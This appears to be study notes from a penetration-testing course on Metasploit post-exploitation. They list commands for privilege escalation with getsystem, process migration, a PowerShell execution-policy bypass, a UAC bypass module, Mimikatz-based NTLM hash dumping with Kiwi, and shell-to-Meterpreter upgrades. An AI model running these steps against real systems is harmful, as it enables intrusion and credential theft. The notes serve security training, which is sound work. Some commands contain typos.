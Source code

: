 ### Post- Exploitation Modules

- Example:
	- As before, we connect to the bind shell on port 4444 on ITWK01, download and execute **met.exe**, and enter **getsystem** to elevate our privileges. Then, we use **ps** to identify the process ID of _OneDrive.exe_, and **migrate** to it.
		- `getsystem`
		- `ps`
		- `migrate 8044`
		- `getuid`
	- To display the integrity level of a process, we can use tools such as _Process Explorer_ or third-party PowerShell modules such as _NtObjectManager_.
	- Once we import the module with _Import-Module_,[4](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/the-metasploit-framework/performing-post-exploitation-with-metasploit/post-exploitation-modules#fn4) we can use _Get-NtTokenIntegrityLevel_[5](https://portal.offsec.com/courses/pen-200/books-and-videos/modal/modules/the-metasploit-framework/performing-post-exploitation-with-metasploit/post-exploitation-modules#fn5) to display the integrity level of the current process by retrieving and reviewing the assigned access token.
		- `shell`
		- `powershell -ep bypass`
		- ````Import-Module NtObjectManager```
		- ```Get-NtTokenIntegrityLevel```
	- Background the currently active channel and session
		- `Ctrl + Z`
		- `bg`
	- search for UAC bypass modules
		- `search UAC`
	- Activate module and set options
		- ```use exploit/windows/local/bypassuac_sdclt```
		- `show options`
		- `set session 9`
		- `set LHOST 192.168.119.4`
		- `run`
	- Check integrity level 
		- `shell`
		- `powershell -ep bypass`
		- `Import_Module NtObjectManager`
		- `````Get-NtTokenIntegrityLevel```
	- **load**
		- loads extensions
		- One great example of this is _Kiwi_, which is a Meterpreter extension providing the capabilities of _Mimikatz_. Because Mimikatz requires SYSTEM rights, let's exit the current Meterpreter session, start the listener again, execute **met.exe** as user _luiza_ in the bind shell, and enter **getsystem**.
			- ```use exploit/multi/handler```
			- `run`
			- `getsystem`
		- *kiwi*
			- `load kiki`
			- `help`
			- **creds_msv**
				- `creds_msv
					- retrieves NTLM hash
- Turn shell into meterpreter shell
	- `search shell_to_meterpreter`
	- `use 0`
	- set session
	- run
